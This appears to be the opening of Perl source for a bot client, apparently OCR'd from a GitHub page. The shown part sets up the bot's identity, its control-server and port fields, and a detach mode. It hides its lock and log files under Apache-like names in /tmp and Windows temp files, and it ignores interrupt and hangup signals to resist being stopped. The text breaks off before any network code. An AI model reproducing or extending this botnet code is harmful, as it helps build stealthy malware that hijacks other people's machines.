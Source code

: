 my $lockfilename;
my $serverfile;
my $idfile;
my $uafile;

my $kernel;
my $version = "2";
my $localip;
my $botid;
my $ua;

my $script_path = abs_path($0);

if ($^O eq "MSWin32"){
	my $temp = `echo %temp%`;
	chomp $temp;
	$lockfilename = $temp."\\~PIF3E6.tmp";
	$serverfile = $temp."\\~PIFSRV6.tmp";
	$idfile = $temp."\\~PIFID45.tmp";
	$uafile = $temp."\\~PIFUA11.tmp";
}
else {
	$lockfilename = "/tmp/apachectrl.lock";
	$serverfile = "/tmp/apachectrl.log";
	$idfile = "/tmp/id";
	$uafile = "/tmp/ua";
}

exit if (!check_multiprocess());

if ($ARGV[0] eq "detach"){
	detachFromConsole();
	exit;
}

if ($ARGV[0] eq "normal"){
	print "normal work pid = $$...\n";
	getKernel();
	getBotId();
	getLocalIp();
	getUA();
	print "version = ".$version."\nkernel = ".$kernel."\nos = ".$^O."\nlocalip = ".$localip."\nbotid = ".$botid."\nua = ".$ua."\n";

	my %tasks = ();
	my @newTaskList;
	my $currentServer;
	my $currentPort;
	my $child = undef;
	my $child_pid;

	$SIG{'INT'} = 'IGNORE';
	$SIG{'HUP'} = 'IGNORE';
	#$SIG{'TERM'} = 'IGNORE';
	#$SIG{'CHLD'} = 'IGNORE';
	$SIG{'PS'} = 'IGNORE';
